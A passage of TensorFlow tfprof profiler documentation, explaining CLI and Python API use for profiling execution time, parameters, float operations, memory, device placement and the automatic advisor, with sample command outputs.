# [bytes|micros|params|float_ops|occurrence|tensor_value|device|op_types]
-select                     params
# format: output_type:key=value,key=value...
# output_types: stdout (default), timeline, file.
# key=value pairs:
#   1. timeline: outfile=<filename>
#   2. file: outfile=<filename>
#   3. stdout: None.
# E.g. timeline:outfile=/tmp/timeline.json
-output
```

### Examples

#### Profile Python Time
```shell
# Requires --graph_path --op_log_path
tfprof> code -max_depth 1000 -show_name_regexes .*model_analyzer.*py.* -select micros -account_type_regexes .* -order_by micros
_TFProfRoot (0us/22.44ms)
  model_analyzer_test.py:149:run_filename_as_m...:none (0us/22.44ms)
    model_analyzer_test.py:33:_run_code_in_main:none (0us/22.44ms)
      model_analyzer_test.py:208:<module>:test.main() (0us/22.44ms)
        model_analyzer_test.py:132:testComplexCodeView:x = lib.BuildFull... (0us/22.44ms)
          model_analyzer_testlib.py:63:BuildFullModel:return sgd_op.min... (0us/21.83ms)
          model_analyzer_testlib.py:58:BuildFullModel:cell, array_ops.c... (0us/333us)
          model_analyzer_testlib.py:54:BuildFullModel:seq.append(array_... (0us/254us)
            model_analyzer_testlib.py:42:BuildSmallModel:x = nn_ops.conv2d... (0us/134us)
            model_analyzer_testlib.py:46:BuildSmallModel:initializer=init_... (0us/40us)
            ...
          model_analyzer_testlib.py:61:BuildFullModel:loss = nn_ops.l2_... (0us/28us)
          model_analyzer_testlib.py:60:BuildFullModel:target = array_op... (0us/0us)
        model_analyzer_test.py:134:testComplexCodeView:sess.run(variable... (0us/0us)
```

Set ```-output timeline:outfile=<filename>``` to generate timeline instead of stdout.
<left>

</left>

#### Profile Graph Time

```shell
# I defined an op named ‘cost’ to calculate the loss. I want to know what ops
# it depends on take a long time to run.

# Requires --graph_path, --run_meta_path.
tfprof> graph -start_name_regexes cost.* -max_depth 100 -min_micros 10000 -select micros -account_type_regexes .*
_TFProfRoot (0us/3.61sec)
  init/init_conv/Conv2D (11.75ms/3.10sec)
    random_shuffle_queue_DequeueMany (3.09sec/3.09sec)
  unit_1_0/sub2/conv2/Conv2D (74.14ms/3.19sec)
  unit_1_3/sub2/conv2/Conv2D (60.75ms/3.34sec)
  unit_2_4/sub2/conv2/Conv2D (73.58ms/3.54sec)
  unit_3_3/sub2/conv2/Conv2D (10.26ms/3.60sec)
```

#### Profile Checkpoint Value
```shell
# Requires --graph_path, --checkpoint_path.
tfprof> scope -show_name_regexes unit_1_0.*gamma -select tensor_value -max_depth 5
_TFProfRoot ()
  unit_1_0/shared_activation/init_bn/gamma ()
[1.80 2.10 2.06 1.91 2.26 1.86 1.81 1.37 1.78 1.85 1.96 1.54 2.04 2.34 2.22 1.99 ],
  unit_1_0/sub2/bn2/gamma ()
[1.57 1.83 1.30 1.25 1.59 1.14 1.26 0.82 1.19 1.10 1.48 1.01 0.82 1.23 1.21 1.14 ],
```

#### Profile Model Parameter

```shell
# Show the number of parameters of all `tf.trainable_variables()` in the model.
# Requires --graph_path --op_log_path.
# store option for future commands.
tfprof> set -account_type_regexes _trainable_variables
tfprof> scope -max_depth 4 -select params
_TFProfRoot (--/464.15k params)
  init/init_conv/DW (3x3x3x16, 432/432 params)
  pool_logit/DW (64x10, 640/640 params)
  pool_logit/biases (10, 10/10 params)
  unit_last/final_bn/beta (64, 64/64 params)
  unit_last/final_bn/gamma (64, 64/64 params)
```

Where does `_trainable_variables` come from? It is customized operation type
defined through the OpLogProto file.
Users can [Define Customized Operation Type](#define-customized-operation-type)

<b>Following example shows importance of defining customized operation type.</b>
In this example, extra `Variables` are created by TensorFlow
implicitly and “/Momentum” is appended to their names. They shouldn't be
included in you “model capacity” calculation.

```shell
tfprof> scope -account_type_regexes VariableV2 -max_depth 4 -select params
_TFProfRoot (--/930.58k params)
  global_step (1/1 params)
  init/init_conv/DW (3x3x3x16, 432/864 params)
  pool_logit/DW (64x10, 640/1.28k params)
    pool_logit/DW/Momentum (64x10, 640/640 params)
  pool_logit/biases (10, 10/20 params)
    pool_logit/biases/Momentum (10, 10/10 params)
  unit_last/final_bn/beta (64, 64/128 params)
  unit_last/final_bn/gamma (64, 64/128 params)
  unit_last/final_bn/moving_mean (64, 64/64 params)
  unit_last/final_bn/moving_variance (64, 64/64 params)
```

#### Profile Device Placement

In this tutorial, a model is split
on several gpus at workers and several parameter servers.

In tfprof, 'device' is an op_type. For example, if op1 and op2 are placed on
gpu:0. They share an operation type.

```shell
bazel-bin/tensorflow/core/profiler/profiler \
  --graph_path=/tmp/graph.pbtxt  \
  --run_meta_path=/tmp/run_meta

# Looks like ps task 1 is holding twice more parameters than task 0.
tfprof> scope -select device,params -account_type_regexes .*ps.*task:0.* -max_depth 1
_TFProfRoot (--/25.81m params)
tfprof> scope -select device,params -account_type_regexes .*ps.*task:1.* -max_depth 1
_TFProfRoot (--/58.84m params)
```

#### Define Customized Operation Type

First, in Python code, create an `OpLogProto` proto and add op type
information to it:

```python
op_log = tfprof_log_pb2.OpLogProto()
entry = op_log.log_entries.add()
entry.name = 'pool_logit/DW'
entry.types.append('pool_logit')
entry = op_log.log_entries.add()
entry.name = 'pool_logit/biases'
entry.types.append('pool_logit')
```

Second, call write_op_log to write the OpLogProto proto.

```python
tf.profiler.write_op_log(
    sess.graph, /tmp/my_op_log_dir, op_log)

# Get run-time shape information in order to fill shapes and get flops.
tf.profiler.write_op_log(
    sess.graph, /tmp/my_op_log_dir, op_log, run_meta)
```

Third, when starting the tfprof tool, specify
"--op_log_path=/tmp/my_op_log_dir/op_log"

```shell
tfprof> scope -account_type_regexes pool_logit -max_depth 4 -select params
_TFProfRoot (--/650 params)
  pool_logit/DW (64x10, 640/640 params)
  pool_logit/biases (10, 10/10 params)
```

Note that `tf.profiler.write_op_log(...)` automatically
assigns all `Variables` inside `tf.trainable_variables()` a customized
operation type: `_trainable_variables`.


#### Non-interactive Mode
12) Run tfprof in one-shot mode and dump result to file.

```shell
# By default output to stdout. Use -output option to change output types.
tfprof scope --graph_path=graph.pbtxt  \
             --max_depth=3 \
             --output="file:outfile=/tmp/dump"
Reading Files...
Parsing GraphDef...
Preparing Views...

cat /tmp/dump
_TFProfRoot (--/930.58k params)
  global_step (0/0 params)
  pool_logit/DW (64x10, 640/1.28k params)
  pool_logit/biases (10, 10/20 params)
```
## Profile Time

* [Times in TensorFlow and tfprof](#times-in-tensorflow-and-tfprof)
* [Profile by Python Code](#profile-by-python-code)
* [Profile by Operation Type](#profile-by-operation-type)
* [Profile by Graph](#profile-by-graph)
* [Profile by Name Scope](#profile-by-name-scope)


### Times in TensorFlow and tfprof
When we run a model, Tensorflow schedules and runs the nodes (operations)
in the graph. An operation can be placed on an accelerator or on CPU.


#### On Accelerator
When an operation is placed on accelerator, it will first be scheduled
by TensorFlow on CPU. Normally, it's the code in OpKernel::Compute.
OpKernel::Compute can decide to dispatch some of the computations on the
accelerator. While some computation (e.g. pre-processing) is still done
in CPU. OpKernel::Compute can dispatch computation on accelerator
and return, or it can also wait for the accelerator to finish.

tfprof reports 3 execution times:

  * <b>accelerator_micros</b>, which is the part of computation time spent on accelerator.
  * <b>cpu_micros</b>, which is the part of computation time spent on cpu, including
    any wait times that might happen if OpKernel::Compute decides to wait.
  * <b>exec_micros</b>, which is the sum of accelerator_micros and cpu_micros.

Since accelerator, such as GPU, usually runs operation asynchronously, you
might notice an operation finishes on cpu before it starts running on
accelerator.

#### On CPU
When an operation is placed on CPU, it will completely run on CPU. Hence,
<b>exec_micros</b> is equal to <b>cpu_micros</b> and <b>accelerator_micros</b>
should be 0.


### Profile by Python Code
```python
# In code view, the time of each line of Python code is the aggregated
# times of all operations created by that line.
# In command line, it requires --graph_path --op_log_path and --run_meta_path.
# --op_log_path provides the code traces information.
# --run_meta_path provides the time information.

tfprof> code -show_name_regexes seq2seq_attention.* -max_depth 10 -select micros -order_by micros
node name | execution time
_TFProfRoot (--/3.74sec)
  seq2seq_attention.py'>:168:run_filename_from...:none (0us/3.74sec)
    seq2seq_attention.py'>:33:_run_code_in_main:none (0us/3.74sec)
      seq2seq_attention.py:316:<module>:app.run() (0us/3.74sec)
        seq2seq_attention.py:270:main:_Train(model, bat... (0us/3.74sec)
          seq2seq_attention.py:128:_Train:model.build_graph() (0us/3.74sec)
            seq2seq_attention_model.py:360:build_graph:self._add_seq2seq() (0us/2.79sec)
              seq2seq_attention_model.py:293:_add_seq2seq:decoder_outputs, ... (0us/2.46sec)
              seq2seq_attention_model.py:192:_add_seq2seq:sequence_length=a... (0us/265.31ms)
              seq2seq_attention_model.py:253:_add_seq2seq:initial_state_att... (0us/50.35ms)
              seq2seq_attention_model.py:173:_add_seq2seq:for x in encoder_... (0us/8.72ms)
              seq2seq_attention_model.py:218:_add_seq2seq:w_t = tf.transpos... (0us/2.39ms)
              ...
            seq2seq_attention_model.py:363:build_graph:self._add_train_o... (0us/949.10ms)
              seq2seq_attention_model.py:307:_add_train_op:tf.gradients(self... (0us/641.44ms)
              seq2seq_attention_model.py:322:_add_train_op:zip(grads, tvars)... (0us/307.56ms)
              ...
            seq2seq_attention_model.py:364:build_graph:self._summaries =... (0us/13us)
            seq2seq_attention_model.py:361:build_graph:self.global_step ... (0us/12us)
            ...
          seq2seq_attention.py:129:_Train:saver = tf.train.... (0us/0us)
          seq2seq_attention.py:140:_Train:global_step=model... (0us/0us)

# Sometimes you want to explore a specific function. You can do that
# with -start_name_regexes.
tfprof> code -start_name_regexes .*_add_seq2seq.* -show_name_regexes seq2seq_attention.* -max_depth 10 -select micros -order_by micros
node name | execution time
_TFProfRoot (--/3.74sec)
  seq2seq_attention_model.py:360:build_graph:self._add_seq2seq() (0us/2.79sec)
    seq2seq_attention_model.py:293:_add_seq2seq:decoder_outputs, ... (0us/2.46sec)
      seq2seq_attention_model.py:289:sampled_loss_func:num_classes=vsize) (0us/2.46sec)
      seq2seq_attention_model.py:282:sampled_loss_func:labels = tf.resha... (0us/164us)

# You can also dive deeper into tensorflow's libraries.
tfprof> code  -max_depth 5 -select micros -order_by micros -start_name_regexes .*_add_seq2seq.* -min_micros 100000
_TFProfRoot (--/3.74sec)
  seq2seq_attention_model.py:360:build_graph:self._add_seq2seq() (0us/2.79sec)
    seq2seq_attention_model.py:293:_add_seq2seq:decoder_outputs, ... (0us/2.46sec)
      seq2seq_lib.py:181:sampled_sequence_...:average_across_ti... (0us/2.46sec)
        seq2seq_lib.py:147:sequence_loss_by_...:crossent = loss_f... (0us/2.46sec)
    seq2seq_attention_model.py:192:_add_seq2seq:sequence_length=a... (0us/265.31ms)
      seq2seq_lib.py:104:bidirectional_rnn:sequence_length, ... (0us/127.27ms)
        core_rnn.py:195:static_rnn:state_size=cell.s... (0us/127.20ms)
      seq2seq_lib.py:110:bidirectional_rnn:initial_state_bw,... (0us/125.96ms)
        core_rnn.py:195:static_rnn:state_size=cell.s... (0us/125.86ms)


# It can also be done in Python API
opts = model_analyzer.TRAINABLE_VARS_PARAMS_STAT_OPTIONS.copy()
opts['account_type_regexes'] = ['.*']
opts['show_name_regexes'] = ['.*model_analyzer_testlib.py.*']
opts['account_displayed_op_only'] = False
opts['select'] = ['micros']

tfprof_node = model_analyzer.print_model_analysis(
    sess.graph, run_meta, cmd='code', options=opts)
```

You can generate some visualization in code view:
Set ```-output timeline:outfile=<filename>``` to generate timeline instead of stdout.
<left>

</left>


### Profile by Operation Type
```python
# In op view, you can view the aggregated time of each operation type.
tfprof> op -select micros,occurrence -order_by micros
node name | execution time | op occurrence
SoftmaxCrossEntropyWithLogits     1.37sec (100.00%, 36.44%),         30
MatMul                        618.97ms (63.56%, 16.51%),       3450
Add                            273.76ms (47.06%, 7.30%),       2180
Sub                            215.41ms (39.76%, 5.74%),       4372
ConcatV2                       203.88ms (34.01%, 5.44%),       6098
Mul                            134.32ms (28.58%, 3.58%),       9427
ApplyAdam                       92.66ms (25.00%, 2.47%),         27
Switch                          72.43ms (22.53%, 1.93%),      30654
LogUniformCandidateSampler       69.01ms (20.59%, 1.84%),         30
Unique                          53.50ms (18.75%, 1.43%),          2
AddN                            50.10ms (17.33%, 1.34%),       5481

# You might be surprised to see that SoftmaxCrossEntropyWithLogits is
# that expensive. As shown below, it is placed on cpu.
tfprof> op -select micros,device -order_by micros
node name | execution time | assigned devices
SoftmaxCrossEntropyWithLogits     1.37sec (100.00%, 36.44%), /job:worker/replica:0/task:0/cpu:0
MatMul                        618.97ms (63.56%, 16.51%), |/job:worker/replica:0/task:0/cpu:0|/job:worker/replica:0/task:0/device:GPU:0|/job:worker/replica:0/task:0/device:GPU:1|/job:worker/replica:0/task:0/device:GPU:2|/job:worker/replica:0/task:0/device:GPU:3
```


### Profile by Graph

Usually, use graph view to generate a timeline to visualize the result.

In the chrome://tracing UI, click "Flow Event" in "View Options" of upper
right corner to see the flow of tensors.

<left>
TODO(xpan): Show the image correctly in github.

</left>

tfprof options allow users to generate timeline in some advanced ways.

```python
# Only generate timeline for gpu3 and cpu on workers.
graph -max_depth 10000000 -step 0 -account_type_regexes .*gpu:3.*,.*worker.*cpu:0.* -output timeline:outfile=<filename.json>
generating trace file.

******************************************************
Timeline file is written to <filename.json>.
Open a Chrome browser, enter URL chrome://tracing and load the timeline file.
******************************************************
```

### Profile by Name Scope

Usually scope view allows you to pin point the problematic places if you
have properly named your operations with tf.name_scope or tf.variable_scope.

```python
tfprof> scope -max_depth 30 -select micros -min_micros 100000 -order_by micros
node name | execution time
_TFProfRoot (--/8.12sec)
  tower_3/gradients/tower_3/Conv2d_1a_3x3/convolution_grad/Conv2DBackpropFilter (126.34ms/126.34ms)
  tower_1/gradients/tower_1/Conv2d_1a_3x3/convolution_grad/Conv2DBackpropFilter (125.44ms/125.44ms)
  tower_2/gradients/tower_2/Conv2d_1a_3x3/convolution_grad/Conv2DBackpropFilter (124.85ms/124.85ms)
  tower_0/gradients/tower_0/Conv2d_1a_3x3/convolution_grad/Conv2DBackpropFilter (124.45ms/124.45ms)
```
## Options

### Overview

For all tfprof views, the profiles are processed with the following procedures

1) An in-memory data structure is built represent the view.

   *  graph view. Graph. Each profiler node corresponds to a
      TensorFlow graph node.
   *  scope view. Tree. Each profiler node corresponds to a
      TensorFlow graph node.
   *  code view. Tree. Each profiler node includes to all TensorFlow
      graph nodes created by the profiler node (python code).
   *  op view. List. Each profiler node includes to all TensorFlow
      graph nodes belonging to an operation type.

2) `-account_type_regexes` is used to first select the nodes that includes
   the specified operation types. An operation has its default type
   (e.g. MatMul, Conv2D). `tfprof` also considers device as operation type.
   User can also define customized operation type. Hence, an operation has
   multiple types. Profiler nodes containing matched
   types are selected for display and their statistics are aggregated by the
   parents of the in-memory data structure.

3) Various `-xxx_name_regexes`,  `-min_xxx`, `-max_depth` etc options are then
   applied to further filter based on profiler node names and statistics.
   It's no limited operation name. In code view,
   it's the code string. In op view, it's the operation type name. Different
   from `-account_type_regexes`, Statistics are used even if a profiler node is not displayed.
   For example, in code view, a callee might be hidden, but its statistics is
   still aggregated by it's caller. `-account_displayed_op_only`, however,
   breaks the rule and only aggregates statistics of displayed names.

4) Finally, the filtered data structure is output in a format depending
   on the `-output` option.

#### Option Semantics In Different View
options usually have the same semantics in different views. However, some
can vary. For example `-max_depth` in scope view means the depth of
name scope <b>tree</b>. In op view, it means the length of operation <b>list</b>.
In graph view, in means the number of hops in the <b>graph</b>.

### Times

Most machines have multi-core CPUs. Some installs one or more accelerators.
Each accelerator usually performs massive parallel processing. The profiler
tracks the accumulated processing times. Hence, the accumulated processing
time is likely larger than the time of each step.

micros: This is the sum of cpu and accelerator times.
accelerator_micros: This is the accelerator times.
cpu_micros: This is the cpu times.

### Memory

Tensor memory are usually ref-counted. The memory is released when there is no
more reference to it. It will be difficult to track the release of memory.
Currently, profiler only tracks the allocation of memory. As a result, the
accumulated memory request is usually larger than the peak memory of the overall
model.

It's recommended to generate timeline to see the allocator memory usage over
time.

`bytes`: The memory allocations requested by the operation.
`peak_bytes`: The peak requested memory (not de-allocated) by the operation.
`residual_bytes`: The memory requested by the operation and not de-allocated
                when Compute finishes.
`output_bytes`: The memory output by the operation. It's not necessarily requested
              by the current operation. For example, it can be a tensor
              forwarded from input to output, with in-place mutation.

### Docs

`-max_depth`: Show nodes that are at most this number of hops from starting node in the data structure.

`-min_bytes`: Show nodes that request at least this number of bytes.

`-min_peak_bytes`: Show nodes that using at least this number of bytes during peak memory usage.

`-min_residual_bytes`: Show nodes that have at least this number of bytes not being de-allocated after Compute.

`-min_output_bytes`: Show nodes that have at least this number of bytes output (no necessarily allocated by the nodes).

`-min_micros`: Show nodes that spend at least this number of microseconds to run. It sums
accelerator_micros and cpu_micros. Note: cpu and accelerator can run in parallel.

`-min_accelerator_micros`: Show nodes that spend at least this number of microseconds to run on accelerator (e.g. GPU).

`-min_cpu_micros`: Show nodes that spend at least this number of microseconds to run on CPU.

`-min_params`: Show nodes that contains at least this number of parameters.

`-min_float_ops`: Show nodes that contain at least this number of float operations. Only available if an node has op.RegisterStatistics() defined and OpLogProto is provided

`-min_occurrence`: Show nodes that appear at least this number of times..

`-step`: Show the stats of the this step when multiple steps of RunMetadata were added. By default, show the average of all steps."

`-order_by`: Order the results by [name|depth|bytes|peak_bytes|residual_bytes|output_bytes|micros|accelerator_micros|cpu_micros|params|float_ops|occurrence]

`-account_type_regexes`: Account and display the nodes whose types match one of
the type regexes specified. tfprof allow user to define extra operation types
for graph nodes through tensorflow.tfprof.OpLogProto proto. regexes are
comma-separated.

`-start_name_regexes`: Show node starting from the node that matches the regexes, recursively. regexes are comma-separated.

`-trim_name_regexes`: Hide node starting from the node that matches the regexes,
recursively, regexes are comma-separated.

`-show_name_regexes`: Show node that match the regexes. regexes are
comma-separated.

`-hide_name_regexes`: Hide node that match the regexes. regexes are
comma-separated.

`-account_displayed_op_only`: If True, only account the statistics of ops eventually displayed. If False, account all op statistics matching -account_type_regexes recursively.

Notes: See <b>overview</b> session on how does above options play with each
other to decide the output and counting.

`-select`: Comma-separated list of attributes to show. Supported attributes:
[bytes|peak_bytes|residual_bytes|output_bytes|micros|accelerator_micros|cpu_micros|params|float_ops|occurrence|tensor_value|device|op_types|input_shapes].

`-output`: Output results as stdout, file or timeline.
The format is ```output_type:key=value,key=value```.
For example: ```-output timeline:outfile=<filename>```.

```shell
timeline: key=outfile, value=<filename>.
stdout: none.
file: key=outfile, value=<filename>.
```
## Profile Model Architecture

* [Profile Model Parameters](#profile-model-parameters)
* [Profile Model Float Operations](#profile-model-float-operations)

### Profile Model Parameters

<b>Notes:</b>
`VariableV2` operation type might contain variables created by TensorFlow
implicitly. User normally don't want to count them as "model capacity".
We can use customized operation type to select a subset of variables.
For example `_trainable_variables` is created automatically by tfprof Python
API. User can also define customized operation type.

```
# parameters are created by operation type 'VariableV2' (For older model,
# it's 'Variable'). scope view is usually suitable in this case.
tfprof> scope -account_type_regexes VariableV2 -max_depth 4 -select params
_TFProfRoot (--/930.58k params)
  global_step (1/1 params)
  init/init_conv/DW (3x3x3x16, 432/864 params)
  pool_logit/DW (64x10, 640/1.28k params)
    pool_logit/DW/Momentum (64x10, 640/640 params)
  pool_logit/biases (10, 10/20 params)
    pool_logit/biases/Momentum (10, 10/10 params)
  unit_last/final_bn/beta (64, 64/128 params)
  unit_last/final_bn/gamma (64, 64/128 params)
  unit_last/final_bn/moving_mean (64, 64/64 params)
  unit_last/final_bn/moving_variance (64, 64/64 params)

# The Python API profiles tf.trainable_variables() instead of VariableV2.
#
# By default, it's printed to stdout. User can update options['output']
# to write to file. The result is always returned as a proto buffer.
param_stats = tf.profiler.profile(
    tf.get_default_graph(),
    options=tf.profiler.ProfileOptionBuilder
        .trainable_variables_parameter())
sys.stdout.write('total_params: %d\n' % param_stats.total_parameters)
```

### Profile Model Float Operations

#### Caveats

For an operation to have float operation statistics:

*   It must have `RegisterStatistics('flops')` defined in TensorFlow. tfprof
    uses the definition to calculate float operations. Contributions are
    welcomed.

*   It must have known "shape" information for RegisterStatistics('flops') to
    calculate the statistics. It is suggested to pass in `-run_meta_path` if
    shape is only known during runtime. tfprof can fill in the missing shape
    with the runtime shape information from RunMetadata. Hence, it is suggested
    to use `-account_displayed_op_only` option so that you know the statistics
    are only for the operations printed out.

*   If no RunMetadata is provided, tfprof counts float_ops of each graph node
    once, even if it is defined in a tf.while_loop. This is because tfprof
    doesn't know statically how many times each graph node is run. If
    RunMetadata is provided, tfprof calculates float_ops as float_ops *
    run_count.

```python
# To profile float operations in commandline, you need to pass --graph_path
# and --op_log_path.
tfprof> scope -min_float_ops 1 -select float_ops -account_displayed_op_only
node name | # float_ops
_TFProfRoot (--/17.63b flops)
  gradients/pool_logit/xw_plus_b/MatMul_grad/MatMul (163.84k/163.84k flops)
  gradients/pool_logit/xw_plus_b/MatMul_grad/MatMul_1 (163.84k/163.84k flops)
  init/init_conv/Conv2D (113.25m/113.25m flops)
  pool_logit/xw_plus_b (1.28k/165.12k flops)
    pool_logit/xw_plus_b/MatMul (163.84k/163.84k flops)
  unit_1_0/sub1/conv1/Conv2D (603.98m/603.98m flops)
  unit_1_0/sub2/conv2/Conv2D (603.98m/603.98m flops)
  unit_1_1/sub1/conv1/Conv2D (603.98m/603.98m flops)
  unit_1_1/sub2/conv2/Conv2D (603.98m/603.98m flops)

# Some might prefer op view that aggregate by operation type.
tfprof> op -min_float_ops 1 -select float_ops -account_displayed_op_only -order_by float_ops
node name | # float_ops
Conv2D                   17.63b float_ops (100.00%, 100.00%)
MatMul                   491.52k float_ops (0.00%, 0.00%)
BiasAdd                  1.28k float_ops (0.00%, 0.00%)

# You can also do that in Python API.
tf.profiler.profile(
    tf.get_default_graph(),
    options=tf.profiler.ProfileOptionBuilder.float_operation())
```
## Auto Detect and Advise

tfprof analyzes profiles and generates advice for common issues.

### Run Advise.

```python
# First create a profiler. See profiler tutorials for more details.
profiler = tf.profiler.Profiler(sess.graph)
run_meta = config_pb2.RunMetadata()
_ = sess.run(r1,
             options=config_pb2.RunOptions(
                 trace_level=config_pb2.RunOptions.FULL_TRACE),
             run_metadata=run_meta)
profiler.add_step(1, run_meta)

# Then Start advise.
profiler.advise()

# For one-shot API
tf.profiler.advise(
    sess.graph, run_meta=run_metadata)
```

```shell
# Run advisor on CLI
# See CLI tutorial on generating the files.
tfprof --graph_path=graph.pbtxt \
       --run_meta_path=run_metadata \
       --op_log_path=tfprof_log

tfprof> advise
AcceleratorUtilizationChecker:
device: /job:worker/replica:0/task:0/device:GPU:0 low utilization: 0.03
device: /job:worker/replica:0/task:0/device:GPU:1 low utilization: 0.08
device: /job:worker/replica:0/task:0/device:GPU:2 low utilization: 0.04
device: /job:worker/replica:0/task:0/device:GPU:3 low utilization: 0.21

OperationChecker:
Found operation using NHWC data_format on GPU. Maybe NCHW is faster.

ExpensiveOperationChecker:
top 1 operation type: SoftmaxCrossEntropyWithLogits, cpu: 1.37sec, accelerator: 0us, total: 1.37sec (26.68%)
top 2 operation type: MatMul, cpu: 427.39ms, accelerator: 280.76ms, total: 708.14ms (13.83%)
top 3 operation type: ConcatV2, cpu: 357.83ms, accelerator: 31.80ms, total: 389.63ms (7.61%)
seq2seq_attention_model.py:360:build_graph:self._add_seq2seq(), cpu: 3.16sec, accelerator: 214.84ms, total: 3.37sec
  seq2seq_attention_model.py:293:_add_seq2seq:decoder_outputs, ..., cpu: 2.46sec, accelerator: 3.25ms, total: 2.47sec
    seq2seq_lib.py:181:sampled_sequence_...:average_across_ti..., cpu: 2.46sec, accelerator: 3.24ms, total: 2.47sec
      seq2seq_lib.py:147:sequence_loss_by_...:crossent = loss_f..., cpu: 2.46sec, accelerator: 3.06ms, total: 2.46sec
        seq2seq_attention_model.py:289:sampled_loss_func:num_classes=vsize), cpu: 2.46sec, accelerator: 3.06ms, total: 2.46sec
        seq2seq_attention_model.py:282:sampled_loss_func:labels = tf.resha..., cpu: 164us, accelerator: 0us, total: 164us
      seq2seq_lib.py:148:sequence_loss_by_...:log_perp_list.app..., cpu: 1.33ms, accelerator: 120us, total: 1.45ms
      seq2seq_lib.py:151:sequence_loss_by_...:total_size = tf.a..., cpu: 154us, accelerator: 23us, total: 177us
    seq2seq_lib.py:184:sampled_sequence_...:return cost / tf...., cpu: 97us, accelerator: 8us, total: 105us
      math_ops.py:690:cast:return gen_math_o..., cpu: 62us, accelerator: 3us, total: 65us
      math_ops.py:839:binary_op_wrapper:return func(x, y,..., cpu: 35us, accelerator: 5us, total: 40us
  seq2seq_attention_model.py:192:_add_seq2seq:sequence_length=a..., cpu: 651.56ms, accelerator: 158.92ms, total: 810.48ms
    seq2seq_lib.py:104:bidirectional_rnn:sequence_length, ..., cpu: 306.58ms, accelerator: 73.54ms, total: 380.12ms
      core_rnn.py:195:static_rnn:state_size=cell.s..., cpu: 306.52ms, accelerator: 73.54ms, total: 380.05ms
        rnn.py:218:_rnn_step:_maybe_copy_some_..., cpu: 303.76ms, accelerator: 73.54ms, total: 377.30ms
        rnn.py:216:_rnn_step:time >= max_seque..., cpu: 2.75ms, accelerator: 0us, total: 2.75ms
      core_rnn.py:179:static_rnn:max_sequence_leng..., cpu: 67us, accelerator: 0us, total: 67us
    seq2seq_lib.py:110:bidirectional_rnn:initial_state_bw,..., cpu: 296.21ms, accelerator: 73.54ms, total: 369.75ms
      core_rnn.py:195:static_rnn:state_size=cell.s..., cpu: 296.11ms, accelerator: 73.54ms, total: 369.65ms
        rnn.py:218:_rnn_step:_maybe_copy_some_..., cpu: 292.04ms, accelerator: 73.54ms, total: 365.58ms
        rnn.py:216:_rnn_step:time >= max_seque..., cpu: 4.07ms, accelerator: 0us, total: 4.07ms
      core_rnn.py:178:static_rnn:min_sequence_leng..., cpu: 85us, accelerator: 0us, total: 85us
      core_rnn.py:179:static_rnn:max_sequence_leng..., cpu: 16us, accelerator: 0us, total: 16us
    seq2seq_lib.py:113:bidirectional_rnn:outputs = [tf.con..., cpu: 46.88ms, accelerator: 3.87ms, total: 50.75ms
 ...(omitted)
top 1 graph node: seq2seq/loss/sampled_sequence_loss/sequence_loss_by_example/SoftmaxCrossEntropyWithLogits_11, cpu: 89.92ms, accelerator: 0us, total: 89.92ms
top 2 graph node: train_step/update_seq2seq/output_projection/w/ApplyAdam, cpu: 84.52ms, accelerator: 0us, total: 84.52ms
top 3 graph node: seq2seq/loss/sampled_sequence_loss/sequence_loss_by_example/SoftmaxCrossEntropyWithLogits_19, cpu: 73.02ms, accelerator: 0us, total: 73.02ms
```

### Checker

There is no magic behind advise mode. tfprof builds the profiles first, then
it runs through a list of `Checkers`, each one responsible for checking one
area with the profile and report issues. A `Checker` is like a plugin.

For example:

#### JobChecker (Not Available OSS)

*   Checks RecvTensor RPC latency and bandwidth.
*   Checks CPU/Memory utilization of the job.

#### AcceleratorUtilization Checker
* Checks what percentage of time the accelerator spends on computation.

#### OperationChecker

*   Checks whether the operation runs with optimal options.
*   Checks if there is a better implementation to replace the current operation.

#### ExpensiveOperationChecker

*   Checks the most expensive operation type.
*   Checks the most expensive graph nodes.
*   Checks the most expensive graph-building Python codes.

#### Contribute Your Checker

Follow examples of accelerator_utilization_checker.h


## Profile Memory

It is generally a good idea to visualize the memory usage in timeline.
It allows you to see the memory consumption of each GPU over time.

```python
#To get memory information, you need --graph_path and --run_meta_path
tfprof> graph -max_depth 10000000 -step 0 -account_type_regexes .* -output timeline:outfile=<filename>
generating trace file.

******************************************************
Timeline file is written to <filename>
Open a Chrome browser, enter URL chrome://tracing and load the timeline file.
******************************************************
```


```python
# You can also visualize the memory information through other methods.

# With op view, it shows you the aggregated output tensor bytes of each
# operation type.
tfprof> op -select bytes -order_by bytes
node name | requested bytes
Identity                   32515.37MB (100.00%, 27.02%)
FusedBatchNormGrad           10802.14MB (72.98%, 8.98%)
FusedBatchNorm               10517.52MB (64.01%, 8.74%)
Conv2D                       10509.25MB (55.27%, 8.73%)
Conv2DBackpropInput           9701.39MB (46.54%, 8.06%)
ReluGrad                      9206.45MB (38.48%, 7.65%)
Relu                          8462.80MB (30.83%, 7.03%)
DepthwiseConv2dNativeBackpropInput     7899.35MB (23.80%, 6.56%)
DepthwiseConv2dNative         7425.17MB (17.23%, 6.17%)
MaxPoolGrad                   3015.44MB (11.06%, 2.51%)
AddN                           2741.49MB (8.56%, 2.28%)

# With scope view, you can see the operations that outputs largest tensors.
tfprof> scope -order_by bytes -select bytes -min_bytes 100000000
node name | requested bytes
_TFProfRoot (--/120356.38MB)
  tower_3/SepConv2d_2b_3x3/separable_conv2d (346.85MB/854.00MB)
    tower_3/SepConv2d_2b_3x3/separable_conv2d/depthwise (507.15MB/507.15MB)
  tower_0/SepConv2d_2b_3x3/separable_conv2d (346.85MB/693.71MB)
    tower_0/SepConv2d_2b_3x3/separable_conv2d/depthwise (346.85MB/346.85MB)
  tower_2/SepConv2d_2b_3x3/separable_conv2d (346.85MB/693.71MB)
    tower_2/SepConv2d_2b_3x3/separable_conv2d/depthwise (346.85MB/346.85MB)
  tower_1/SepConv2d_2b_3x3/separable_conv2d (346.85MB/693.71MB)
    tower_1/SepConv2d_2b_3x3/separable_conv2d/depthwise (346.85MB/346.85MB)
  tower_3/SepConv2d_2a_3x3/separable_conv2d (346.85MB/520.28MB)
    tower_3/SepConv2d_2a_3x3/separable_conv2d/depthwise (173.43MB/173.43MB)
  tower_2/SepConv2d_2a_3x3/separable_conv2d (346.85MB/520.28MB)
    tower_2/SepConv2d_2a_3x3/separable_conv2d/depthwise (173.43MB/173.43MB)
  tower_0/SepConv2d_2a_3x3/separable_conv2d (346.85MB/520.28MB)
    tower_0/SepConv2d_2a_3x3/separable_conv2d/depthwise (173.43MB/173.43MB)
  ...

# code view.
tfprof> code  -max_depth 10 -select bytes -order_by bytes -start_name_regexes .*seq2seq.* -min_bytes 1
node name | requested bytes
_TFProfRoot (--/74148.60MB)
